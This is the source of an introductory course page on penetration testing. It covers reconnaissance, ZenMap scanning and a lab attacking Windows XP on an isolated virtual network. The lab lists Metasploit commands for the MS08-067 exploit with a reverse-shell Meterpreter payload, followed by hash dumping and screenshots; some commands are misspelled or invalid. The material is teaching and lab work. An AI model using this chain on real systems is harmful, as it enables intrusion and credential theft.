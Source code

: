 ```yaml
---
layout: course
course: active
title: Penetration Testing
description: Overview of Cyber Security Topics and Career Paths
permalink: /penetration-testing/
penetration-testing: show
estimated-time: 30
---
```


{% include estimated-time.html %}

<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/BdSCIn50xjc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br>

## Overview
A penetration tester tests the security of applications or networks to find vulnerabilities. Finding vulnerabilities is key to staying a step ahead of hackers who would want to do damage. In order to protect against a hacker, you must in a way think like a hacker. To get a better idea of how hacking works we will go through a demonstration of an attack.

## Environment Setup
In a previous section we setup our simulation environment with Virtualbox. For our penetration tests we want to create an isolated network to communicate between our two systems. We will be using Kali Linux and a Windows XP SP2 (Service Pack 2) machine.

If you want to following along a copy of Windows XP SP2 on ebay for less than $20. Remember this demo lab is optional so don't worry about trying to find a copy of Windows if you aren't trying this out yourself. We will use Kali for a later lab so make sure that is set up.

There are a couple of settings we need to take a look at to setup a localized network. Go to the global network settings in Virtualbox. The host network adapter and DCHCP server must be fixed. Once that is done we can go into the network settings on Kali and Windows and change them to host only adapters. Now Kali and Windows XP can communicate back and forth without accessing our actual network.

## Reconnaissance & Scanning
How do we find out who is vulnerable? Before we start actually trying to attack the Windows machine, we must know more about it. To find out more about systems on a network we go through a phases of Reconnaissance and Scanning & Enumeration. What makes these different?

### Reconnaissance
Reconnaissance is a completely passive in that we will look at all available information without actually reaching out to target systems. Usually this means finding out as much as possible about the target systems or applications by searching online.

### Scanning & Enumeration
The scanning phase is when we begin reaching out to systems on the network. This is considered our first active approach locating vulnerabilities in the target systems. In our case we are looking for specific information about about the Windows machine. Things like its location on the network (IP Address), operating system version, and available ports. With this knowledge we can narrow our focus and choose the correct exploit for the particular target machine. To scan the network we will use a tool called ZenMap.

#### Performing the Scan
Open up ZenMap by typing `zenmap &` in the terminal. We will scan a range of IP Addresses based on what our Kali Linux IP. For instance, my Kali Linux IP is 192.168.56.1 so I will scan IPs ending in 1 through 10 `192.168.56.1-10`. Enter your IP range into the target area.

Now all we need to do is choose the intensity of our scan. The drop down on the right of the target box shows us the variety of scans we can use. The three scans we will use are a ping scan, quick scan, and an intense scan. These scans describe how much information we will look get based on the scan. The increased intensity also increases the amount of noise being made during the scan.

- Ping Scan
  * A ping scan just checks to see if the door is there. So any available systems on the network will show up. In our case that should be two: Kali and Windows.
- Quick Scan
  * The quick scan will reveal what ports are available for each system. When we perform our exploit we will be connecting to one of those open ports to drop our payload.
- Intense Scan
  * The intense scan will give the most information. It will give open ports, traceroute, IP address, and operating system information. The results for the intense scan verify that the system on the local network is Windows XP SP2. This is important information since our exploit only works on Windows systems SP2 and before.

## Lab: Ms08_067 Attack Demo
This lab will go through the meat of the attack where the action happens. This is the gaining access phase.

<br>
<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/q-ZrX41cIOA" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br><br>


### Gaining Access
What does gaining access to a system look like. Normally you use your computer through a GUI (Graphical User Interface) where you can click on icons to navigate. Gaining access to the Windows XP system won't look the same. Our access will be restricted to just the command line interface. Good news is we can still do just as much on the command line as we can we the interface.

### Metasploit
Metasploit is a penetration testing framework that comes with Kali. We will use metasploit to configure and run our attack since it has a large database of exploits and payloads for us to pull from. Once we run the exploit a new console will pop up in our terminal. This console is part of the meterpreter payload.

At this point we have access to the windows system and have access to the windows terminal. From here we can modify information, access data, and perform other attacks. To perform additional attacks we will switch to the meterpreter console inside our terminal. Meterpreter gives us more tools to work with. We can now perform keylogging, webcam and screen recording and other attacks.

### Lab Command List (tabbed area for each section of lab)
~~~~
$ msfconsole
$ search ms08_067_netapi
$ use exploit/windows/smb/ms08_067_netapi
$ set payload windows/meterpreter/revers_tcp
$ set lhost
$ set rhost
$ show targets
$ set target {# correlated with victim system's OS}
$ show options
$ exploit

[in meterpreter console]
> ?
> run windows terminal
> create hack.txt
> screen shot
> hash dump
~~~~

## Exercise Walkthrough
### Who is on the network?
This exercise explores how we can identify vulnerable systems by network scanning. Network scanning is a useful tool for understanding how a network is laid out. Like in the attack demo we can do this scanning with Zenmap.

### Tools
- Virtualbox
- Kali Linux
- ZenMap

### Exercise Goals
- Scan the network for a system
- Identify key information about the system (IP Address, open ports, OS version etc.)

### Exercise Questions
For this assignment we will be scanning [scanme.nmap.org](scanme.nmap.org) to get familiar with scanning. Run a ping, quick, and intense scan. What is the IP Address of the website? Which ports are open and which are closed?. What operating system and version is the website running?

## Additional Resources
For more information about port scanning check out these articles:
